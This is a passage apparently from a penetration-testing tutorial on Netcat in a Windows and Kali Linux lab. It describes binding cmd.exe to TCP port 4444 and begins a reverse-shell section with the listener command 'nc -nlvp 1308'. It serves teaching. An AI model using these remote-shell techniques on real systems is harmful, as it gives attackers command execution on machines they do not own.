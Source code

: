 ![](./img/Chapter4/11.png)

Now Netcat has bound TCP port 4444 to cmd.exe and will redirect any input, output, or error messages from cmd.exe to the network

![](./img/Chapter4/12.png)


#### **1.4.2. Reverse Shell**

The Windows machine will connect to the Kali Linux machine and send the command shell to the Kali Linux machine. The Kali Linux machine will then be able to execute commands on the Windows machine.

On the Kali Linux machine, we will set up a Netcat listener on port 1308

```bash
nc -nlvp 1308
```

![](./img/Chapter4/15.png)
